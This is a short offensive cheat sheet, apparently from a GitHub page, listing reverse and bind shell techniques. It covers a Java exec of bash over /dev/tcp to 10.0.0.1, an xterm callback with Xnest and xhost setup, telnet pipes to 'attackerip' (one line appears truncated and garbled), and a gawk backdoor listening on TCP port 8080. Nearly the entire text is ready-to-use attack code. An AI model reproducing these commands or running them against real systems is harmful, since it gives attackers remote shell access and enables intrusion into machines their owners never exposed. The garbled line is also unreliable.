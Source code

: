 
# Java

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

# Xterm
    One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

    xterm -display 10.0.0.1:1
    or $ DISPLAY=attackerip:0 xterm

    To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

    Xnest :1

    You’ll need to authorise the target to connect to you (command also run on your host):

    xhost +targetip

    xterm -display 127.0.0.1:1  # Run this OUTSIDE the Xnest
    

# Telnet

    rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p

    telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp

# gawk
````
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
````

